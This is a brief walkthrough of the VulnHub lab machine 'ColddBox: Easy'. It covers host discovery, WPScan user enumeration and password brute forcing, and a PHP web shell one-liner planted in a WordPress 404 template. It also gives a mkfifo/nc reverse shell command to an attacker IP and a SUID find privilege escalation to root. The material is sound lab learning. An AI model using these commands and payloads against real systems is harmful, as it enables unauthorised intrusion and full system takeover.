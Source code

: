 # ColddBox: Easy

https://www.vulnhub.com/entry/colddbox-easy,586/

Just a warmup, as its been a while. Actually spent most of my time working on a new setup, using kali via WSL2. The biggest issue was catching a reverse shell, which because of how WSL2 works, seems to not be possible for now. Instead I used ncat for windows, via the nmap repo: https://nmap.org/download.html, but then had to fight a war with my own firewall to get it to catch something. Anyway!

1. Found the host only virtual box hosted vm via `nmap -sP 192.168.154.0/24` - that IP range being what I have configured for virtual box.
2. A scan of the machine revealed `80`, and a random port that turned out to be SSH.
3. On port `80` was a wordpress site. I ran `wp-scan` and got a list of users via `-e u`
4. Feeding these users and `rockyou.txt` back into `wp-scan` (`-U <list of users> -P <path to rockyou>`) I got a password within 0.16% of rockyou for the user `c0ldd`
5. Via this user/password, I logged into the admin portal and customised the `404.php` template with a one liner reverse shell: `<?php echo shell_exec($_GET['e'].' 2>&1'); ?>`
6. Starting up `ncat.exe -nvlp 1337` on my windows machine, I caught a reverse shell via `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.154.1 1337 >/tmp/f`
7. A `find / -perm -u=s 2>/dev/null` revealed `/usr/bin/find` under the suid list.
8. Running `/usr/bin/find . -exec /bin/sh -p \; -quit` got me a root shell.

And that's all she wrote!
